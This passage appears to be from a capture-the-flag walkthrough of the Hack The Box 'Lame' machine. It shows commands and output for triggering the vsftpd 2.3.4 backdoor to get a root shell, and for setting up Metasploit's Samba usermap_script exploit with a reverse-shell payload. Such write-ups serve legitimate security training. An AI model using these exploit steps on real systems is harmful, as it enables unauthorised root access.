 This connection is refused because it has been some time since we triggered the backdoor so the port is closed again.

```bash
luc@kali:~/HTB/Lame$ nc 10.10.10.3 21
220 (vsFTPd 2.3.4)
USER exploit:)
331 Please specify the password.
PASS xxx
530 Login incorrect.
```

After triggering the backdoor we can retry connecting on 127.0.0.1:6200.

```bash
makis@lame:~$ nc 127.0.0.1 6200
id
uid=0(root) gid=0(root)
```

We now have successfully used the backdoor. This could've been a path to root if SMB didn't give root already.

### SMB exploit with Metasploit

```bash
luc@kali:~/HTB/Lame$ sudo msfdb init && msfconsole -q
[i] Database already started
[i] The database appears to be already configured, skipping initialization
-----------------------------------------------------------------------------------
The pg and/or activerecord gem version has changed, meaning deprecated pg constants
may no longer be in use, so try deleting this file to see if the
'The PGconn, PGresult, and PGError constants are deprecated...' message has gone:
/usr/share/metasploit-framework/lib/pg/deprecated_constants.rb
-----------------------------------------------------------------------------------

msf5 > search usermap

Matching Modules
================

   #  Name                                Disclosure Date  Rank       Check  Description
   -  ----                                ---------------  ----       -----  -----------
   0  exploit/multi/samba/usermap_script  2007-05-14       excellent  No     Samba "username map script" Command Execution


msf5 > use exploit/multi/samba/usermap_script
msf5 exploit(multi/samba/usermap_script) > show payloads
...
18  cmd/unix/reverse manual No Unix Command Shell, Double Reverse TCP (telnet)
...
msf5 exploit(multi/samba/usermap_script) > set payload cmd/unix/reverse
payload => cmd/unix/reverse
msf5 exploit(multi/samba/usermap_script) > show options

Module options (exploit/multi/samba/usermap_script):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS         yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   139              yes       The target port (TCP)


Payload options (cmd/unix/reverse):

```